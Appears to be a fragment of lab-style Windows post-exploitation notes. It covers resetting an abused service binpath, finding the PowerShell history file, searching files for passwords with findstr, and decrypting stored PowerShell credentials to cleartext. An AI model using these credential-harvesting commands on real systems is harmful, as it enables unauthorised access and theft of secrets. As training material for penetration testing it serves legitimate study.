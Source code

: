 
---

### 🧼 Cleanup (Always Be Professional)

- Reset the binpath after abuse:

```cmd
sc config <ServiceName> binpath= "C:\Original\Path\to\binary.exe"
sc start <ServiceName>
```

## PowerShell History File

#### Command to

Starting with Powershell 5.0 in Windows 10, PowerShell stores command history to the file:

- `C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`.
```powershell
(Get-PSReadLineOption).HistorySavePath
```


```powershell
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
```

#### Decrypting PowerShell Credentials

If we have gained command execution in the context of this user or can abuse DPAPI, then we can recover the cleartext credentials from `encrypted.xml`. The example below assumes the former.

  Credential Hunting

```powershell
PS C:\htb> $credential = Import-Clixml -Path 'C:\scripts\pass.xml'
PS C:\htb> $credential.GetNetworkCredential().username

bob


PS C:\htb> $credential.GetNetworkCredential().password

Str0ng3ncryptedP@ss!
```

#### Search File Contents for String - Example 3


```cmd
C:\htb> findstr /spin "password" *.*

stuff.txt:1:password: l#-x9r11_2_GL!
```

```powershell 
dir -Path C:\ -Recurse -Filter *.config
```
